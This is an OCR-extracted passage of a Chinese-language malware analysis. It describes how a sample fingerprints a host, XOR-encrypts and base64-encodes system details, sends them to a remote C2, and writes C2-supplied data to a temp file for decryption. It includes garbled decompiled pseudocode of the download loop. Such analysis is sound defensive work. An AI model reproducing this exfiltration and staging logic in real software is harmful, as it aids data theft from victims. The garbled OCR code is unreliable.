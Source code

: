 然后获取用户系统MAC地址、计算机名和IP地址，通过CRC32校验算法计算出“机器标识ID”；  

![](https://cdn-mineru.openxlab.org.cn/extract/dba31634-377e-40fa-b78d-3bc240e5a01e/4f68de757ed930e21d632dbcd21362096ba8bb4eff501d78ffc5c3810e1305e6.jpg)  
图4CRC32计算机器标识ID  

对获取的系统IP地址、计算机名、用户名、系统版本和位数用“机器标识ID”进行滚动XOR加密，之后再对加密数据进行base64编码，并将其转化为URL编码数据；  

![](https://cdn-mineru.openxlab.org.cn/extract/dba31634-377e-40fa-b78d-3bc240e5a01e/aa7857eff4d5bfa4d17e2bd8db03b12545e6723d373c82e1e793809e7724e7cd.jpg)  
图5对系统信息进行加密  

# 之后将这些信息发送给远程C2。  

![](https://cdn-mineru.openxlab.org.cn/extract/dba31634-377e-40fa-b78d-3bc240e5a01e/bd9039127913ae53bd08a0a4a49a03c3dcaac6ee0212b66dd54fad3716d3fa5b.jpg)  
图6窃取信息发送到远程C2  

在成功接收到C2返回的数据后，获取“ $\langle\Upsilon\backslash\mathrm{n}\backslash\mathrm{r}\backslash\mathrm{n}^{\prime}$ ”后的数据，并在“%temp%”目录创建文件，将提取的数据写入到文件中;  

tet_message(iovo);   
v122=qword_14001B110;   
sub_14000F910(qword_14001B110); //获取temp%   
ResizeAndCopyMemory(&qword_140019F34,v122);   
V123 ${}={}$ qword_14001B110;   
sub_14000F9B8(qword_14001B110);   
ResizeAndCopyMemory(&qword_140019FEC, v123);   
v124 $=$ qword_14001B110;   
CopyWideStringToMemory(qword_140019F34);   
randomnumber $=$ GenerateRandomNumberInRange(0x3E7ui64,0x64ui64);   
sub_14000EBD0(randomnumber, qword_14001B110);   
base64_xor(&word_140018382[26],v8,v9,v10,qword_14001B110);// 解密 “.tmp"   
ResizeAndCopyMemory(&tmp_file, v124);   
sub_140002F82(qword_140019FEC); // C:\\Users\\Administrator\\AppData\\Local\\Temp\\650.tmp Get_Message(1000);   
v125 = qword_14001B110;   
4454 /   
quord 140019FCC $=$ findfirstoccurrence index(qword140019FF4, &word 14001844[164]);// 找到r\n\r\n   
third_data_len $=$ qword_140019FCC+ 3;   
if （ data_len -(qword_140019FCC + 3) $<=~1$ ）   
{ dword_14001A058 $=$ 20; goto end;   
if （createFileAndStoreInfo(1i64，tmp_file）)// tmp文件 while ( data_len > θ ) int_temp = 0i64; do { if （ data_len - third_data_len -1<int_temp ) break; v70 = return_al_(&recv_buf[third_data_len + int_temp]); sub_140010920(1i64,v70); //写文件 v71 = _OFADD_(1i64, int_temp++); while (!v71 ); memset_θ(recv_buf, 0x400,v69); v72 = GetHeapSize(recv_buf); data_len $=$ recv_data(net_handle, recv_buf, v72 - 1); third_data_len ${}={}$ 0i64; handleArrayValue(1i64);  

![](https://cdn-mineru.openxlab.org.cn/extract/dba31634-377e-40fa-b78d-3bc240e5a01e/d6a41587a759ce6a462a65af208444bed29fe9a6ea63620faae94aa98fa2b70d.jpg)  
图8将C2数据写入到临时文件  

之后会检查数据的第11个字节到第18个字节是否是11到81（十进制），然后使用第19到26个字节作为密钥X0R解密后续加密数据；  

![](https://cdn-mineru.openxlab.org.cn/extract/dba31634-377e-40fa-b78d-3bc240e5a01e/ac2bc8121297823546b2ef03937bbb8f2d4145187497f7bdff0d54b07ee4a56a.jpg)  
图9 数据示例 (构造)  
